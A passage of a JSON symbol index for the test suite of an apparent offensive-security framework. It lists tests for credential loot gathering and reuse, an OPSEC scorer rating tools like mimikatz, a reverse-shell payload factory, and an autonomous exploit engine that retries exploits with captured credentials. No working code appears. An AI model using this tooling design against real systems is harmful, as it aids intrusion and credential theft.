test_info_is_1(self)"}, {"kind": "method", "line": 129, "name": "test_all_tactics_have_ta_prefix", "signature": "def test_all_tactics_have_ta_prefix(self)"}, {"kind": "method", "line": 135, "name": "test_generate_for_critical", "signature": "def test_generate_for_critical(self)"}, {"kind": "method", "line": 151, "name": "test_skip_low_severity", "signature": "def test_skip_low_severity(self)"}]}, {"doc": "Tests for unified loot, cred-graph view, and quantitative phase progress.  Covers the loot model and operator helpers added to ``cli/ops_commands.py`` (``gather_loot`` / ``loot_show`` / ``loot_search`` / ``loot_reuse`` / ``loot_graph`` / ``loot_mark`` / ``resolve_cred_value`` / ``phase_progress``) and the symmetric ``WorldModel.link_credential_to_failure`` cred-graph edge.  All tests run against ``tmp_path`` session fixtures — no mocking of real ``sessions/`` artefacts, per the project's integration-first test policy.", "id": "tests/test_ops_loot_phase.py", "kind": "module", "label": "test_ops_loot_phase.py", "language": "py", "sha256": "9f5fd056834371ad", "symbol_count": 22, "symbols": [{"doc": "Write a credentials file and a hash file with a comment and blank line.", "kind": "function", "line": 34, "name": "_seed_loot", "signature": "def _seed_loot(sessions_dir)"}, {"kind": "function", "line": 46, "name": "_write_world", "signature": "def _write_world(sessions_dir, world)"}, {"kind": "function", "line": 53, "name": "test_gather_loot_parses_kinds_and_skips_noise", "signature": "def test_gather_loot_parses_kinds_and_skips_noise(tmp_path)"}, {"kind": "function", "line": 65, "name": "test_loot_entry_value", "signature": "def test_loot_entry_value()"}, {"kind": "function", "line": 70, "name": "test_resolve_cred_value_precedence", "signature": "def test_resolve_cred_value_precedence()"}, {"kind": "function", "line": 85, "name": "test_loot_show_renders_table", "signature": "def test_loot_show_renders_table(tmp_path, capsys)"}, {"kind": "function", "line": 94, "name": "test_loot_show_empty", "signature": "def test_loot_show_empty(tmp_path, capsys)"}, {"kind": "function", "line": 101, "name": "test_loot_search_hits_and_provenance", "signature": "def test_loot_search_hits_and_provenance(tmp_path, capsys)"}, {"kind": "function", "line": 115, "name": "test_loot_search_no_match", "signature": "def test_loot_search_no_match(tmp_path, capsys)"}, {"kind": "function", "line": 123, "name": "test_loot_search_requires_query", "signature": "def test_loot_search_requires_query(tmp_path, capsys)"}, {"kind": "function", "line": 133, "name": "test_loot_reuse_no_target", "signature": "def test_loot_reuse_no_target(tmp_path, capsys)"}, {"kind": "function", "line": 141, "name": "test_loot_reuse_no_loot", "signature": "def test_loot_reuse_no_loot(tmp_path, capsys)"}, {"kind": "function", "line": 148, "name": "test_loot_reuse_excludes_rejected_and_flags_confirmed", "signature": "def test_loot_reuse_excludes_rejected_and_flags_confirmed(tmp_path, capsys)"}, {"kind": "function", "line": 174, "name": "test_loot_graph_renders_edges", "signature": "def test_loot_graph_renders_edges(tmp_path, capsys)"}, {"kind": "function", "line": 196, "name": "test_loot_graph_empty", "signature": "def test_loot_graph_empty(tmp_path, capsys)"}, {"kind": "function", "line": 206, "name": "test_loot_mark_writes_rejected_edge", "signature": "def test_loot_mark_writes_rejected_edge(tmp_path)"}, {"kind": "function", "line": 222, "name": "test_loot_mark_rejects_bad_outcome", "signature": "def test_loot_mark_rejects_bad_outcome(tmp_path, capsys)"}, {"kind": "function", "line": 230, "name": "test_loot_mark_unknown_credential", "signature": "def test_loot_mark_unknown_credential(tmp_path, capsys)"}, {"kind": "function", "line": 241, "name": "test_phase_progress_ranks", "signature": "def test_phase_progress_ranks(tmp_path)"}, {"kind": "function", "line": 262, "name": "test_phase_progress_completed_override", "signature": "def test_phase_progress_completed_override(tmp_path)"}, {"kind": "function", "line": 283, "name": "test_phase_progress_os_owned_report_and_loot", "signature": "def test_phase_progress_os_owned_report_and_loot(tmp_path)"}, {"kind": "function", "line": 310, "name": "test_link_credential_to_failure_edge_and_roundtrip", "signature": "def test_link_credential_to_failure_edge_and_roundtrip(tmp_path)"}]}, {"doc": "Tests for modules/opsec_scorer.py", "id": "tests/test_opsec_scorer.py", "kind": "module", "label": "test_opsec_scorer.py", "language": "py", "sha256": "44a0cd397126419b", "symbol_count": 13, "symbols": [{"kind": "class", "line": 13, "name": "TestOpsecScorer", "signature": "class TestOpsecScorer"}, {"kind": "method", "line": 14, "name": "test_score_high_noise_command", "signature": "def test_score_high_noise_command(self)"}, {"kind": "method", "line": 21, "name": "test_score_low_noise_command", "signature": "def test_score_low_noise_command(self)"}, {"kind": "method", "line": 27, "name": "test_score_unknown_command", "signature": "def test_score_unknown_command(self)"}, {"kind": "method", "line": 33, "name": "test_score_with_evasion", "signature": "def test_score_with_evasion(self)"}, {"kind": "method", "line": 39, "name": "test_score_batch", "signature": "def test_score_batch(self)"}, {"kind": "method", "line": 45, "name": "test_score_to_dict", "signature": "def test_score_to_dict(self)"}, {"kind": "method", "line": 61, "name": "test_confidence_is_float", "signature": "def test_confidence_is_float(self)"}, {"kind": "method", "line": 67, "name": "test_mitigations_returned", "signature": "def test_mitigations_returned(self)"}, {"kind": "method", "line": 72, "name": "test_convenience_function", "signature": "def test_convenience_function(self)"}, {"kind": "method", "line": 77, "name": "test_all_known_commands_have_mitigations", "signature": "def test_all_known_commands_have_mitigations(self)"}, {"kind": "method", "line": 85, "name": "test_suggest_mitigations", "signature": "def test_suggest_mitigations(self)"}, {"kind": "method", "line": 90, "name": "test_target_sensitivity_dc", "signature": "def test_target_sensitivity_dc(self)"}]}, {"doc": "Consolidated OPSEC scorer contract tests (SDD/TDD/BDD).  Covers the single-contract ``modules.opsec_scorer`` after merging the former ``opsec_scorer_v2`` module. Verifies:  - The shared noise-to-risk mapping is the single source of truth for both :class:`OpsecScorer` (advisory, string label) and :class:`OpsecScorerV2` (gated, enum label). - V2 gating behaviour (allow / warn / confirm / block) and trend tracking. - Backward-compatible V1 advisory scoring.", "id": "tests/test_opsec_scorer_consolidated.py", "kind": "module", "label": "test_opsec_scorer_consolidated.py", "language": "py", "sha256": "b4525c8e2584e24c", "symbol_count": 22, "symbols": [{"kind": "class", "line": 29, "name": "TestSharedRiskMapping", "signature": "class TestSharedRiskMapping"}, {"kind": "class", "line": 59, "name": "TestRiskLevelAndGate", "signature": "class TestRiskLevelAndGate"}, {"kind": "class", "line": 78, "name": "TestOpsecScorerV2", "signature": "class TestOpsecScorerV2"}, {"kind": "class", "line": 140, "name": "TestBackwardCompatibility", "signature": "class TestBackwardCompatibility"}, {"kind": "method", "line": 30, "name": "test_risk_buckets_respect_thresholds", "signature": "def test_risk_buckets_respect_thresholds(self)"}, {"kind": "method", "line": 40, "name": "test_risk_label_matches_bucket", "signature": "def test_risk_label_matches_bucket(self)"}, {"kind": "method", "line": 46, "name": "test_risk_level_matches_bucket", "signature": "def test_risk_level_matches_bucket(self)"}, {"kind": "method", "line": 52, "name": "test_string_and_enum_labels_are_consistent", "signature": "def test_string_and_enum_labels_are_consistent(self)"}, {"kind": "method", "line": 60, "name": "test_enum_values", "signature": "def test_enum_values(self)"}, {"kind": "method", "line": 70, "name": "test_gate_mapping", "signature": "def test_gate_mapping(self)"}, {"kind": "method", "line": 79, "name": "test_assess_returns_gated_score", "signature": "def test_assess_returns_gated_score(self)"}, {"kind": "method", "line": 87, "name": "test_mimikatz_is_high_critical", "signature": "def test_mimikatz_is_high_critical(self)"}, {"kind": "method", "line": 99, "name": "test_ping_is_allow", "signature": "def test_ping_is_allow(self)"}, {"kind": "method", "line": 105, "name": "test_should_allow_returns_tuple", "signature": "def test_should_allow_returns_tuple(self)"}, {"kind": "method", "line": 111, "name": "test_trend_insufficient_data", "signature": "def test_trend_insufficient_data(self)"}, {"kind": "method", "line": 115, "name": "test_trend_after_scoring", "signature": "def test_trend_after_scoring(self)"}, {"kind": "method", "line": 123, "name": "test_mitigations_generated", "signature": "def test_mitigations_generated(self)"}, {"kind": "method", "line": 128, "name": "test_alternatives_for_mimikatz", "signature": "def test_alternatives_for_mimikatz(self)"}, {"kind": "method", "line": 133, "name": "test_unknown_command_uses_default_profile", "signature": "def test_unknown_command_uses_default_profile(self)"}, {"kind": "method", "line": 141, "name": "test_v1_score_returns_string_risk", "signature": "def test_v1_score_returns_string_risk(self)"}, {"kind": "method", "line": 147, "name": "test_opsec_context_defaults", "signature": "def test_opsec_context_defaults(self)"}, {"kind": "method", "line": 154, "name": "test_risk_profiles_shared_table_intact", "signature": "def test_risk_profiles_shared_table_intact(self)"}]}, {"doc": "Packaging and project-foundation tests.  Verify the project's foundation:  - ``Config`` class deduplicated in ``utils.py``. - ``pyproject.toml`` / ``setup.py`` packaging metadata correct and complete. - ``requirements-dev.txt`` present with expected tooling. - pre-commit config valid. - GitHub Actions workflows present and valid. - ``.gitignore`` protects sensitive material.", "id": "tests/test_packaging.py", "kind": "module", "label": "test_packaging.py", "language": "py", "sha256": "fce37ca4efd8a4a9", "symbol_count": 67, "symbols": [{"kind": "function", "line": 25, "name": "_read_text", "signature": "def _read_text(path)"}, {"kind": "function", "line": 29, "name": "_load_toml", "signature": "def _load_toml(path)"}, {"kind": "function", "line": 34, "name": "_load_yaml", "signature": "def _load_yaml(path)"}, {"doc": "The Config class must be defined exactly once across the framework.\n\nThe canonical location is ``core/config.py``; ``utils.py`` re-exports it\nfor backwards compatibility but must not redefine it.", "kind": "class", "line": 39, "name": "TestConfigDeduplication", "signature": "class TestConfigDeduplication"}, {"doc": "pyproject.toml must parse, list valid deps, and define tooling sections.", "kind": "class", "line": 98, "name": "TestPyProjectToml", "signature": "class TestPyProjectToml"}, {"doc": "setup.py must be a thin shim delegating to pyproject.toml.\n\nThe dependency list lives only in ``pyproject.toml`` ``[project]``; setup.py\nmust not duplicate it (DRY) and must simply call ``setup()`` so legacy\n``python setup.py`` invocations keep working.", "kind": "class", "line": 154, "name": "TestSetupPy", "signature": "class TestSetupPy"}, {"doc": "requirements-dev.txt must list expected tooling.", "kind": "class", "line": 193, "name": "TestRequirementsDev", "signature": "class TestRequirementsDev"}, {"doc": ".pre-commit-config.yaml must be valid and include core hooks.", "kind": "class", "line": 213, "name": "TestPreCommitConfig", "signature": "class TestPreCommitConfig"}, {"doc": "All GitHub Actions workflows must parse and define expected jobs.", "kind": "class", "line": 242, "name": "TestCIWorkflows", "signature": "class TestCIWorkflows"}, {"doc": ".gitignore must protect sensitive material.", "kind": "class", "line": 284, "name": "TestGitIgnore", "signature": "class TestGitIgnore"}, {"doc": "Pinned runtime locks must exist, be fully pinned, and stay split so the\ncross-platform core never drags in platform-specific CUDA wheels.", "kind": "class", "line": 303, "name": "TestRequirementsLock", "signature": "class TestRequirementsLock"}, {"doc": "install.sh must be hardened and free of the historical bugs.", "kind": "class", "line": 343, "name": "TestInstallScript", "signature": "class TestInstallScript"}, {"doc": "Top-level source files must parse cleanly.", "kind": "class", "line": 370, "name": "TestSourceFilesParse", "signature": "class TestSourceFilesParse"}, {"kind": "method", "line": 46, "name": "test_config_class_defined_exactly_once_in_core", "signature": "def test_config_class_defined_exactly_once_in_core(self)"}, {"kind": "method", "line": 52, "name": "test_config_class_not_redefined_in_utils", "signature": "def test_config_class_not_redefined_in_utils(self)"}, {"doc": "Run a snippet in a clean subprocess so utils.py's argv parsing does not interfere.", "kind": "method", "line": 59, "name": "_run_in_subprocess", "signature": "def _run_in_subprocess(snippet)"}, {"kind": "method", "line": 74, "name": "test_config_attribute_access_works", "signature": "def test_config_attribute_access_works(self)"}, {"kind": "method", "line": 83, "name": "test_config_getitem_returns_value", "signature": "def test_config_getitem_returns_value(self)"}, {"kind": "method", "line": 89, "name": "test_config_getitem_returns_none_for_missing_key", "signature": "def test_config_getitem_returns_none_for_missing_key(self)"}, {"kind": "method", "line": 102, "name": "pyproject", "signature": "def pyproject(self)"}, {"kind": "method", "line": 105, "name": "test_parses", "signature": "def test_parses(self, pyproject)"}, {"kind": "method", "line": 108, "name": "test_has_no_typo_dependency", "signature": "def test_has_no_typo_dependency(self, pyproject)"}, {"kind": "method", "line": 113, "name": "test_does_not_list_stdlib_ast_as_dep", "signature": "def test_does_not_list_stdlib_ast_as_dep(self, pyproject)"}, {"kind": "method", "line": 117, "name": "test_lists_flask_wtf_correctly", "signature": "def test_lists_flask_wtf_correctly(self, pyproject)"}, {"kind": "method", "line": 121, "name": "test_does_not_list_broken_docx", "signature": "def test_does_not_list_broken_docx(self, pyproject)"}, {"kind": "method", "line": 126, "name": "test_has_ml_optional_dependencies", "signature": "def test_has_ml_optional_dependencies(self, pyproject)"}, {"kind": "method", "line": 132, "name": "test_has_dev_optional_dependencies", "signature": "def test_has_dev_optional_dependencies(self, pyproject)"}, {"kind": "method", "line": 138, "name": "test_has_ruff_section", "signature": "def test_has_ruff_section(self, pyproject)"}, {"kind": "method", "line": 142, "name": "test_has_pytest_section", "signature": "def test_has_pytest_section(self, pyproject)"}, {"kind": "method", "line": 146, "name": "test_has_mypy_section", "signature": "def test_has_mypy_section(self, pyproject)"}, {"kind": "method", "line": 150, "name": "test_has_bandit_section", "signature": "def test_has_bandit_section(self, pyproject)"}, {"kind": "method", "line": 163, "name": "setup_tree", "signature": "def setup_tree(self)"}, {"kind": "method", "line": 167, "name": "setup_text", "signature": "def setup_text(self)"}, {"kind": "method", "line": 170, "name": "test_parses", "signature": "def test_parses(self, setup_tree)"}, {"kind": "method", "line": 173, "name": "test_calls_setup", "signature": "def test_calls_setup(self, setup_tree)"}, {"kind": "method", "line": 181, "name": "test_does_not_duplicate_dependencies", "signature": "def test_does_not_duplicate_dependencies(self, setup_text)"}, {"kind": "method", "line": 186, "name": "test_no_typo_dep", "signature": "def test_no_typo_dep(self, setup_text)"}, {"kind": "method", "line": 189, "name": "test_no_stdlib_ast_dep", "signature": "def test_no_stdlib_ast_dep(self, setup_text)"}, {"kind": "method", "line": 197, "name": "deps", "signature": "def deps(self)"}, {"kind": "method", "line": 208, "name": "test_lists_tool", "signature": "def test_lists_tool(self, deps, tool)"}, {"kind": "method", "line": 217, "name": "cfg", "signature": "def cfg(self)"}, {"kind": "method", "line": 220, "name": "test_parses", "signature": "def test_parses(self, cfg)"}, {"kind": "method", "line": 225, "name": "test_has_ruff_repo", "signature": "def test_has_ruff_repo(self, cfg)"}, {"kind": "method", "line": 229, "name": "test_has_detect_secrets_repo", "signature": "def test_has_detect_secrets_repo(self, cfg)"}, {"kind": "method", "line": 233, "name": "test_has_core_hygiene_hooks", "signature": "def test_has_core_hygiene_hooks(self, cfg)"}, {"kind": "method", "line": 246, "name": "lint_wf", "signature": "def lint_wf(self)"}, {"kind": "method", "line": 250, "name": "test_wf", "signature": "def test_wf(self)"}, {"kind": "method", "line": 254, "name": "security_wf", "signature": "def security_wf(self)"}, {"kind": "method", "line": 257, "name": "test_lint_workflow_has_ruff_and_mypy_jobs", "signature": "def test_lint_workflow_has_ruff_and_mypy_jobs(self, lint_wf)"}, {"kind": "method", "line": 262, "name": "test_test_workflow_runs_pytest", "signature": "def test_test_workflow_runs_pytest(self, test_wf)"}, {"kind": "method", "line": 267, "name": "test_security_workflow_has_three_jobs", "signature": "def test_security_workflow_has_three_jobs(self, security_wf)"}, {"kind": "method", "line": 276, "name": "test_workflow_triggers_on_push_and_pr", "signature": "def test_workflow_triggers_on_push_and_pr(self, wf_path)"}, {"kind": "method", "line": 288, "name": "patterns", "signature": "def patterns(self)"}, {"kind": "method", "line": 299, "name": "test_pattern_present", "signature": "def test_pattern_present(self, patterns, pattern)"}, {"kind": "method", "line": 308, "name": "_entries", "signature": "def _entries(name)"}, {"kind": "method", "line": 316, "name": "_names", "signature": "def _names(entries)"}, {"kind": "method", "line": 319, "name": "test_core_lock_exists_and_pinned", "signature": "def test_core_lock_exists_and_pinned(self)"}, {"kind": "method", "line": 325, "name": "test_core_lock_has_python_docx_not_broken_docx", "signature": "def test_core_lock_has_python_docx_not_broken_docx(self)"}, {"kind": "method", "line": 330, "name": "test_core_lock_is_cross_platform", "signature": "def test_core_lock_is_cross_platform(self)"}, {"kind": "method", "line": 335, "name": "test_ml_lock_exists_pinned_with_torch", "signature": "def test_ml_lock_exists_pinned_with_torch(self)"}, {"kind": "method", "line": 347, "name": "text", "signature": "def text(self)"}, {"kind": "method", "line": 350, "name": "test_uses_strict_mode", "signature": "def test_uses_strict_mode(self, text)"}, {"kind": "method", "line": 353, "name": "test_does_not_install_stdlib_ast", "signature": "def test_does_not_install_stdlib_ast(self, text)"}, {"kind": "method", "line": 358, "name": "test_does_not_install_broken_docx", "signature": "def test_does_not_install_broken_docx(self, text)"}, {"kind": "method", "line": 363, "name": "test_installs_from_pinned_lock", "signature": "def test_installs_from_pinned_lock(self, text)"}, {"kind": "method", "line": 366, "name": "test_no_absolute_modules_ext_path", "signature": "def test_no_absolute_modules_ext_path(self, text)"}, {"kind": "method", "line": 374, "name": "test_parses", "signature": "def test_parses(self, filename)"}]}, {"doc": "Tests for cli/palette_overlay.py.  Exercises the data layer (state, filtering, ranking). The Textual app itself is not instantiated; the runner argument of ``launch_overlay`` is used to verify the wiring without rendering.", "id": "tests/test_palette_overlay.py", "kind": "module", "label": "test_palette_overlay.py", "language": "py", "sha256": "b6980ea2d04892f5", "symbol_count": 10, "symbols": [{"kind": "function", "line": 24, "name": "_fake_index", "signature": "def _fake_index()"}, {"doc": "No query returns every canonical command, sorted deterministically.", "kind": "function", "line": 36, "name": "test_rows_returns_all_commands_when_query_empty", "signature": "def test_rows_returns_all_commands_when_query_empty()"}, {"doc": "Substring match narrows results.", "kind": "function", "line": 44, "name": "test_rows_filter_by_substring", "signature": "def test_rows_filter_by_substring()"}, {"doc": "Recents float to the top when not contradicted by an exact prefix match.", "kind": "function", "line": 52, "name": "test_rows_rank_recents_above_substrings", "signature": "def test_rows_rank_recents_above_substrings()"}, {"doc": "The truncation limit caps the returned list length.", "kind": "function", "line": 65, "name": "test_rows_respect_max_rows", "signature": "def test_rows_respect_max_rows()"}, {"doc": "The factory returns ``None`` when the index cannot be loaded.", "kind": "function", "line": 73, "name": "test_build_state_returns_none_when_index_missing", "signature": "def test_build_state_returns_none_when_index_missing(monkeypatch)"}, {"doc": "The runner override lets tests bypass Textual entirely.", "kind": "function", "line": 79, "name": "test_launch_overlay_uses_runner_for_tests", "signature": "def test_launch_overlay_uses_runner_for_tests()"}, {"doc": "Long summaries get truncated with the configured suffix.", "kind": "function", "line": 90, "name": "test_truncate_summary_uses_truncation_suffix", "signature": "def test_truncate_summary_uses_truncation_suffix()"}, {"doc": "Leading/trailing whitespace is removed before scoring.", "kind": "function", "line": 106, "name": "test_set_query_strips_whitespace", "signature": "def test_set_query_strips_whitespace()"}, {"kind": "function", "line": 83, "name": "runner", "signature": "def runner(context)"}]}, {"doc": "Tests for modules.payload_factory — PayloadFactory, PayloadTemplate, format conversion.  Covers built-in payloads, format conversion, fallback to msfvenom, and the payload table formatter.", "id": "tests/test_payload_factory.py", "kind": "module", "label": "test_payload_factory.py", "language": "py", "sha256": "00a7592e20ecd5eb", "symbol_count": 32, "symbols": [{"kind": "class", "line": 21, "name": "TestPayloadTemplate", "signature": "class TestPayloadTemplate"}, {"kind": "class", "line": 39, "name": "TestReverseShellPayload", "signature": "class TestReverseShellPayload"}, {"kind": "class", "line": 64, "name": "TestWindowsReverseShellPayload", "signature": "class TestWindowsReverseShellPayload"}, {"kind": "class", "line": 74, "name": "TestPayloadFactory", "signature": "class TestPayloadFactory"}, {"kind": "class", "line": 168, "name": "TestFormatPayloadTable", "signature": "class TestFormatPayloadTable"}, {"doc": "PayloadTemplate ABC cannot be instantiated directly.", "kind": "method", "line": 22, "name": "test_abstract_cannot_instantiate", "signature": "def test_abstract_cannot_instantiate(self)"}, {"doc": "A minimal concrete subclass works.", "kind": "method", "line": 27, "name": "test_concrete_subclass", "signature": "def test_concrete_subclass(self)"}, {"kind": "method", "line": 40, "name": "test_bash_default", "signature": "def test_bash_default(self)"}, {"kind": "method", "line": 47, "name": "test_nc_shell", "signature": "def test_nc_shell(self)"}, {"kind": "method", "line": 52, "name": "test_python_shell", "signature": "def test_python_shell(self)"}, {"kind": "method", "line": 58, "name": "test_unknown_shell_type_falls_back_to_bash", "signature": "def test_unknown_shell_type_falls_back_to_bash(self)"}, {"kind": "method", "line": 65, "name": "test_generates_powershell", "signature": "def test_generates_powershell(self)"}, {"kind": "method", "line": 75, "name": "test_list_all", "signature": "def test_list_all(self)"}, {"kind": "method", "line": 82, "name": "test_list_filter_by_platform", "signature": "def test_list_filter_by_platform(self)"}, {"kind": "method", "line": 89, "name": "test_get_existing_payload", "signature": "def test_get_existing_payload(self)"}, {"kind": "method", "line": 95, "name": "test_get_nonexistent_returns_none", "signature": "def test_get_nonexistent_returns_none(self)"}, {"kind": "method", "line": 99, "name": "test_generate_native_payload", "signature": "def test_generate_native_payload(self)"}, {"kind": "method", "line": 106, "name": "test_register_custom", "signature": "def test_register_custom(self)"}, {"kind": "method", "line": 118, "name": "test_format_raw", "signature": "def test_format_raw(self)"}, {"kind": "method", "line": 124, "name": "test_format_hex", "signature": "def test_format_hex(self)"}, {"kind": "method", "line": 130, "name": "test_format_base64", "signature": "def test_format_base64(self)"}, {"kind": "method", "line": 138, "name": "test_format_c", "signature": "def test_format_c(self)"}, {"kind": "method", "line": 144, "name": "test_format_python", "signature": "def test_format_python(self)"}, {"kind": "method", "line": 150, "name": "test_list_formats", "signature": "def test_list_formats(self)"}, {"doc": "Fallback to msfvenom returns empty bytes when msfvenom is not installed.", "kind": "method", "line": 161, "name": "test_fallback_to_msfvenom_when_not_found", "signature": "def test_fallback_to_msfvenom_when_not_found(self)"}, {"kind": "method", "line": 169, "name": "test_empty_list", "signature": "def test_empty_list(self)"}, {"kind": "method", "line": 173, "name": "test_formats_list", "signature": "def test_formats_list(self)"}, {"kind": "method", "line": 182, "name": "test_multiple_payloads_aligned", "signature": "def test_multiple_payloads_aligned(self)"}, {"kind": "class", "line": 30, "name": "MinimalPayload", "signature": "class MinimalPayload(PayloadTemplate)"}, {"kind": "class", "line": 109, "name": "CustomPayload", "signature": "class CustomPayload(PayloadTemplate)"}, {"kind": "method", "line": 31, "name": "generate", "signature": "def generate(self)"}, {"kind": "method", "line": 110, "name": "generate", "signature": "def generate(self)"}]}, {"doc": "Tests for the ``core.payload_schema`` validation layer.  The schema is the contract that gives ``payload.json`` a typed, documented shape after years of being a free-form dictionary. These tests pin three properties:  - Every key historically present in the shipped ``payload.json`` has a registered :class:`FieldSpec` so the operator gets descriptions for every value in the wizard. - Type validation produces structured :class:`ValidationIssue` instances with the right severity for required vs optional fields. - Coercion never widens behaviour beyond the documented narrow scope (port strings, boolean-like strings).", "id": "tests/test_payload_schema.py", "kind": "module", "label": "test_payload_schema.py", "language": "py", "sha256": "2680d28ed844c056", "symbol_count": 53, "symbols": [{"kind": "class", "line": 41, "name": "TestSchemaShape", "signature": "class TestSchemaShape"}, {"kind": "class", "line": 72, "name": "TestValidateValue", "signature": "class TestValidateValue"}, {"kind": "class", "line": 133, "name": "TestCoerceValue", "signature": "class TestCoerceValue"}, {"kind": "class", "line": 162, "name": "TestValidatePayload", "signature": "class TestValidatePayload"}, {"kind": "class", "line": 191, "name": "TestFieldFor", "signature": "class TestFieldFor"}, {"kind": "class", "line": 201, "name": "TestFormatIssue", "signature": "class TestFormatIssue"}, {"kind": "class", "line": 235, "name": "TestAssignIntegration", "signature": "class TestAssignIntegration"}, {"kind": "class", "line": 275, "name": "TestLlmBackendSchema", "signature": "class TestLlmBackendSchema"}, {"kind": "method", "line": 42, "name": "test_schema_is_not_empty", "signature": "def test_schema_is_not_empty(self)"}, {"kind": "method", "line": 45, "name": "test_every_spec_has_required_fields", "signature": "def test_every_spec_has_required_fields(self)"}, {"kind": "method", "line": 53, "name": "test_required_fields_are_documented", "signature": "def test_required_fields_are_documented(self)"}, {"kind": "method", "line": 57, "name": "test_shipped_payload_keys_are_all_in_schema", "signature": "def test_shipped_payload_keys_are_all_in_schema(self)"}, {"kind": "method", "line": 65, "name": "test_categories_split_schema", "signature": "def test_categories_split_schema(self)"}, {"kind": "method", "line": 73, "name": "test_unknown_key_returns_info", "signature": "def test_unknown_key_returns_info(self)"}, {"kind": "method", "line": 78, "name": "test_required_missing_returns_error", "signature": "def test_required_missing_returns_error(self)"}, {"kind": "method", "line": 82, "name": "test_optional_missing_returns_none", "signature": "def test_optional_missing_returns_none(self)"}, {"kind": "method", "line": 86, "name": "test_valid_ip_passes", "signature": "def test_valid_ip_passes(self)"}, {"kind": "method", "line": 89, "name": "test_invalid_ip_returns_error", "signature": "def test_invalid_ip_returns_error(self)"}, {"kind": "method", "line": 95, "name": "test_port_string_is_accepted", "signature": "def test_port_string_is_accepted(self)"}, {"kind": "method", "line": 98, "name": "test_port_out_of_range_is_warning", "signature": "def test_port_out_of_range_is_warning(self)"}, {"kind": "method", "line": 102, "name": "test_negative_port_warns", "signature": "def test_negative_port_warns(self)"}, {"kind": "method", "line": 106, "name": "test_os_id_must_be_1_or_2", "signature": "def test_os_id_must_be_1_or_2(self)"}, {"kind": "method", "line": 112, "name": "test_url_validates", "signature": "def test_url_validates(self)"}, {"kind": "method", "line": 117, "name": "test_hex_validates", "signature": "def test_hex_validates(self)"}, {"kind": "method", "line": 121, "name": "test_allowed_values_enforced", "signature": "def test_allowed_values_enforced(self)"}, {"kind": "method", "line": 127, "name": "test_hide_code_range", "signature": "def test_hide_code_range(self)"}, {"kind": "method", "line": 134, "name": "test_port_string_to_int", "signature": "def test_port_string_to_int(self)"}, {"kind": "method", "line": 137, "name": "test_port_int_passthrough", "signature": "def test_port_int_passthrough(self)"}, {"kind": "method", "line": 140, "name": "test_port_non_numeric_passthrough", "signature": "def test_port_non_numeric_passthrough(self)"}, {"kind": "method", "line": 143, "name": "test_bool_truthy_strings", "signature": "def test_bool_truthy_strings(self)"}, {"kind": "method", "line": 147, "name": "test_bool_falsy_strings", "signature": "def test_bool_falsy_strings(self)"}, {"kind": "method", "line": 151, "name": "test_bool_passthrough", "signature": "def test_bool_passthrough(self)"}, {"kind": "method", "line": 155, "name": "test_unknown_key_passthrough", "signature": "def test_unknown_key_passthrough(self)"}, {"kind": "method", "line": 158, "name": "test_ip_string_unchanged", "signature": "def test_ip_string_unchanged(self)"}, {"kind": "method", "line": 163, "name": "test_default_payload_passes", "signature": "def test_default_payload_passes(self)"}, {"kind": "method", "line": 168, "name": "test_missing_required_field_reports_error", "signature": "def test_missing_required_field_reports_error(self)"}, {"kind": "method", "line": 175, "name": "test_unknown_key_in_payload_is_info", "signature": "def test_unknown_key_in_payload_is_info(self)"}, {"kind": "method", "line": 182, "name": "test_shipped_payload_has_no_errors", "signature": "def test_shipped_payload_has_no_errors(self)"}, {"kind": "method", "line": 192, "name": "test_returns_spec_for_known_key", "signature": "def test_returns_spec_for_known_key(self)"}, {"kind": "method", "line": 197, "name": "test_returns_none_for_unknown_key", "signature": "def test_returns_none_for_unknown_key(self)"}, {"kind": "method", "line": 202, "name": "test_sensitive_values_redacted", "signature": "def test_sensitive_values_redacted(self)"}, {"kind": "method", "line": 213, "name": "test_non_sensitive_values_shown", "signature": "def test_non_sensitive_values_shown(self)"}, {"kind": "method", "line": 223, "name": "test_long_values_truncated", "signature": "def test_long_values_truncated(self)"}, {"kind": "method", "line": 236, "name": "test_apply_assign_coerces_port_strings", "signature": "def test_apply_assign_coerces_port_strings(self)"}, {"kind": "method", "line": 244, "name": "test_apply_assign_surfaces_issue_for_bad_ip", "signature": "def test_apply_assign_surfaces_issue_for_bad_ip(self)"}, {"kind": "method", "line": 259, "name": "test_apply_assign_no_issue_for_valid_value", "signature": "def test_apply_assign_no_issue_for_valid_value(self)"}, {"kind": "method", "line": 267, "name": "test_apply_assign_keeps_unknown_key_behavior", "signature": "def test_apply_assign_keeps_unknown_key_behavior(self)"}, {"kind": "method", "line": 276, "name": "test_llm_backend_enum_validated", "signature": "def test_llm_backend_enum_validated(self)"}, {"kind": "method", "line": 289, "name": "test_llm_backend_rejects_unknown", "signature": "def test_llm_backend_rejects_unknown(self)"}, {"kind": "method", "line": 292, "name": "test_llm_backend_accepts_supported", "signature": "def test_llm_backend_accepts_supported(self)"}, {"kind": "method", "line": 299, "name": "test_model_slots_registered_with_factory_defaults", "signature": "def test_model_slots_registered_with_factory_defaults(self)"}, {"kind": "method", "line": 313, "name": "test_provider_key_slots_sensitive", "signature": "def test_provider_key_slots_sensitive(self)"}, {"kind": "method", "line": 319, "name": "test_ollama_host_registered", "signature": "def test_ollama_host_registered(self)"}]}, {"doc": "Phase 1 data-gap closure: SDD + TDD + BDD tests.  Covers four critical gaps: 1. service_version findings now populate structured add_service() via metadata 2. domain / email / error findings are consumed instead of dropped 3. GraphTopologySignal feeds pivot_candidates into RecommendationEngine 4. AutonomousExploitEngine retries exploits with newly-captured credentials", "id": "tests/test_phase1_data_gaps.py", "kind": "module", "label": "test_phase1_data_gaps.py", "language": "py", "sha256": "b599769f8a2e27d5", "symbol_count": 55, "symbols": [{"kind": "function", "line": 36, "name": "parser", "signature": "def parser()"}, {"kind": "function", "line": 41, "name": "world_model", "signature": "def world_model()"}, {"kind": "function", "line": 49, "name": "_make_finding", "signature": "def _make_finding(ftype, value, host, metadata)"}, {"kind": "class", "line": 56, "name": "TestFindingMetadata", "signature": "class TestFindingMetadata"}, {"kind": "class", "line": 72, "name": "TestServiceVersionExtractor", "signature": "class TestServiceVersionExtractor"}, {"kind": "class", "line": 103, "name": "TestEmailExtractor", "signature": "class TestEmailExtractor"}, {"kind": "class", "line": 130, "name": "TestObsParserIncludesEmailExtractor", "signature": "class TestObsParserIncludesEmailExtractor"}, {"kind": "class", "line": 158, "name": "TestEmailAndDomainEntries", "signature": "class TestEmailAndDomainEntries"}, {"kind": "class", "line": 174, "name": "TestWorldModelEmailDomain", "signature": "class TestWorldModelEmailDomain"}, {"kind": "class", "line": 198, "name": "TestUpdateFromFindings", "signature": "class TestUpdateFromFindings"}, {"kind": "class", "line": 265, "name": 